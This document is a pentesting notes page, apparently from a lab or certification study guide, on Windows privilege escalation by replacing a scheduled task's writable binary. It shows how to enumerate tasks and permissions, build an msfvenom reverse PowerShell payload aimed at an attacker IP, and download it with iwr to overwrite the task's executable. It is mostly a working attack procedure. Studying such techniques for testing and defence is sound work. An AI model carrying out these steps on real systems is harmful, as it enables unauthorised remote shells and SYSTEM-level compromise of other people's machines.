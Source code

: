 # Scheduled Tasks

Windows uses **Task Scheduler** to run automated jobs, known as **Scheduled Tasks**, based on defined triggers (e.g., at startup, login, or a specific time). Each task has one or more actions—scripts or programs to execute—configured under its properties. For privilege escalation, the focus is on three key details:

1. **User context:** Does the task run as `SYSTEM` or an `administrator`?
2. **Triggers:** When does it run? Is the condition re-usable within the testing window?
3. **Actions:** What program or script runs?

{% tabs %}
{% tab title="1. List Tasks" %}
{% code overflow="wrap" %}
```powershell
# /fo LIST -> format as list, /v -> display all properties (verbose)
> schtasks /query /fo LIST /v

HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        4/7/2025 12:09:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Author:                               CLIENTWK220\daveadmin
Task To Run:                      C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Scheduled Task State:                 Enabled
Run As User:                          daveadmin
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
Repeat: Every:                        0 Hour(s), 1 Minute(s)

# Alternative
> Get-ScheduledTask

# Check the binary's persmissions
> icacls BackendCacheCleanup.exe
BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)
                        CLIENTWK220\steve:(I)(F)
```
{% endcode %}
{% endtab %}

{% tab title="2. Payload" %}
{% code overflow="wrap" %}
```bash
# Created a revershe shell payload
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.49.117 LPORT=80 > revshell.exe
```
{% endcode %}
{% endtab %}

{% tab title="3. Replace" %}
{% code overflow="wrap" %}
```powershell
# Backup the original binary
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.back

# Download the malicious binary
iwr http://192.168.45.226/revshell.exe -outfile BackendCacheCleanup.exe
```
{% endcode %}
{% endtab %}
{% endtabs %}
